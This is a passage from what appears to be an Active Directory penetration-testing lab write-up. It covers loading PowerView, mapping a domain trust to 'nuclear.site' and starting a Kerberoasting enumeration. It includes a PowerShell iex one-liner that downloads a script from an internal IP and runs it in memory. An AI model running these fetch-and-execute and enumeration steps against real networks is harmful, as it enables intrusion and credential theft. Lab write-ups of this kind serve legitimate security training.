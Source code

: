To enumerate, first import `PowerView_dev.ps1`:

```
iex ((New-Object Net.WebClient).DownloadString("http://192.168.100.11/PowerView_dev.ps1"))
```

<br/>

Then map Domain Trust:

```
Get-NetDomainTrust
```

![picture 29](images/8db1c3a16c4a0616f3e8265ea2fa46b39b5899f1d0bb9fb41899818f3fd71f4b.png)  

As shown, the current domain has a 2-way transitive external trust with the domain `nuclear.site`, which means we can abuse this to access `nuclear.site`.

<br/>

## Kerberoasting

To enumerate users with SPN set in the domain `nuclear.site`:

```
Get-NetUser -SPN -Domain nuclear.site
```
